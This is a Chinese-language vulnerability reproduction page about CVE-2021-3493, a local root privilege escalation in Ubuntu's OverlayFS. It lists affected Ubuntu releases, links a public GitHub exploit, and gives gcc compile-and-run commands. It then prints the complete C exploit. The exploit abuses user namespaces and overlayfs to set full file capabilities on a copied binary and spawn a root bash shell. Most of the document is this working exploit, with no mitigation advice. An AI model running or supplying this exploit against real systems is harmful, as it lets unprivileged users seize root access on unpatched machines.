

# Linux kernel权限提升漏洞 CVE-2021-3493
## 漏洞描述
Ubuntu OverlayFS Local Privesc
CVE-2021-3493 EXP在Github被公开，可以通过EXP在Ubuntu多个影响系统中提升 ROOT权限
## 漏洞影响
<a-checkbox checked>Ubuntu 20.10</a-checkbox></br>
<a-checkbox checked>Ubuntu 20.04 LTS</a-checkbox></br>
<a-checkbox checked>Ubuntu 18.04 LTS</a-checkbox></br>
<a-checkbox checked>Ubuntu 16.04 LTS</a-checkbox></br>
<a-checkbox checked>Ubuntu 14.04 ESM</a-checkbox></br>
## 漏洞复现
<a-alert type="success" message="漏洞Github地址为：https://github.com/briskets/CVE-2021-3493" description="" showIcon>
</a-alert>
<br/>

环境使用腾讯云的Ubuntu镜像即可
```sh
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```
下载并编译脚本


运行EXP成功提权 Root



## 漏洞POC
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}


```